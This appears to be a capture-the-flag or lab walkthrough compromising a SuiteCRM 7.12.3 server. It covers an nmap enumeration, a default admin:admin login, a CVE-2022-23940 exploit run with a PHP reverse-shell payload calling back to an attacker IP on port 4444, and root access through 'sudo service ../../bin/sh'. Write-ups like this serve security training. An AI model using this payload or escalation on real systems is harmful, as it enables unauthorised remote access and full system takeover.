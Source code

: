 #Pwned! 
```IP
192.168.232.146
```
## Enumeration
## Nmap
As always I start enumerating target ports with nmap:
```Bash
sudo nmap -sCV 192.168.232.146 -vvv -p- -oN enum/full
```
The output being:
```
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 37:80:01:4a:43:86:30:c9:79:e7:fb:7f:3b:a4:1e:dd (RSA)            
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBCcfKYKMXuTWeyLKlFNHgmebcXbFAjSpbr39R8GFHYRmc/mZXKNgEoa5gkFAVr8kVVul4X6//DcnRuHtrCpHcnTIZLT9g1DPB09VsLzsjT0TpmqkcDYtZazo1mjnBZdaM+AxoDMghZd8AXiNrCl7jCN+vRjUQc8T1wD4PoC02XjeCAI8Yha++Mv9ZrSPZ+/gBv
gZPL3pdQhVGUSUHOmXod4xcdm5ReNiZRNZklOhhscbGfSCqQIdJogegZfMrlueeG3EY7Kkf5CxAUDH/9ir2dEDDifIpqKV8W7ncKEpsZiqgDh36OdMX4LPJ0NmZiT/g8CvINx7k4HWj3ksT+5C7
|   256 b6:18:a1:e1:98:fb:6c:c6:87:55:45:10:c6:d4:45:b9 (ECDSA)           
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEK0B9iLJQztyEpGiNffHgQuGcxZRO/BOi+r0j/P8Hkz02pIWW2hFrArbzehUNQ46ZmFwMhxxmrIOLBpUt9ZGBw=
|   256 ab:8f:2d:e8:a2:04:e7:b7:65:d3:fe:5e:93:1e:03:67 (ED25519)         
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOAlO2qlRhyMwzzf3xAK4wOGz1UD5t9+QQO5J3QjTkaZ
80/tcp    open  http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))     
|_http-favicon: Unknown favicon MD5: ED9A8C7810E8C9FB7035B6C3147C9A3A     
| http-cookie-flags:
|   /:
|     PHPSESSID:                                    
|_      httponly flag not set                          
|_http-server-header: Apache/2.4.38 (Debian)
| http-title: SuiteCRM                      
|_Requested resource was index.php?action=Login&module=Users
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry  
|_/ 
3306/tcp  open  mysql   syn-ack ttl 61 MySQL (unauthorized)
33060/tcp open  mysqlx? syn-ack ttl 61
```

## HTTP 80
admin:admin
we are in

Suite CRM
Version 7.12.3
Sugar Version 6.5.25 (Build 344)
# Exploitation
https://github.com/manuelz120/CVE-2022-23940
```
python exploit.py -h http://192.168.232.146 -u admin -p admin --payload "php -r '\$sock=fsockopen(\"192.168.45.185\",4444);passthru(\"sh <&3 >&3 2>&3\");'"
```

# PrivEsc

## Manual
tty treatment
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125110748.png?raw=true)

we can use sudo service 
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125110828.png?raw=true)
with service we can access the file system without dropping privileges
```
sudo service ../../bin/sh
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241125110933.png?raw=true)
we are root now
## Automated

### Peass
### Mimikatz

# Lateral Movement

